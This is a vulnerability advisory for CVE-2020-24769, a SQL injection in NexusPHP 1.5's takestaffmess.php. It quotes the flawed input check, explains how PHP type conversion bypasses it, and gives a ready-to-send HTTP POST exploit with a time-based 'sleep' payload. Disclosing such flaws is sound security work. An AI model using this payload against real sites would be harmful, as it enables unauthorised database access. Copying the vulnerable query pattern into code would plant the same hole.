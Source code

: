 
# CVE-2020-24769

Need get the administrator's identity to complete the attack.

#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
#### fixed version: nexusphp v1.6.0-beta2 https://github.com/xiaomlove/nexusphp/releases

#### Github Repository https://github.com/xiaomlove/nexusphp


##  Vulnerability details

#### takestaffmess.php:line 16

```	
$updateset = $_POST['clases'];
if (is_array($updateset)) {
	foreach ($updateset as $class) {
		if (!is_valid_id($class) && $class != 0)
			stderr("Error","Invalid Class");
	}
}else{
	if (!is_valid_id($updateset) && $updateset != 0)
		stderr("Error","Invalid Class");
}
$subject = trim($_POST['subject']);
$query = sql_query("SELECT id FROM users WHERE class IN (".implode(",", $updateset).")");
```
Although the source code uses the is_valid_id function to check the contents of the clases but because of the php type conversion when the class is non-numeric when compared to zero will get an equal result and thus is_valid_id is invalid.
#### exploit:
```
POST /takestaffmess.php HTTP/1.1
Host: localhost
Cookie: administrator_cookies
Content-Length: 66
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

clases[]=sleep(2)&msg=1&receiver=1&returnto=&sender=self&subject=1
```

clases[]=sleep(2)&msg=1&receiver=1&returnto=&sender=self&subject=1

The return will be delayed for 2 seconds  

clases[]=sleep(0)&msg=1&receiver=1&returnto=&sender=self&subject=1

The return will be delayed for 0 seconds  
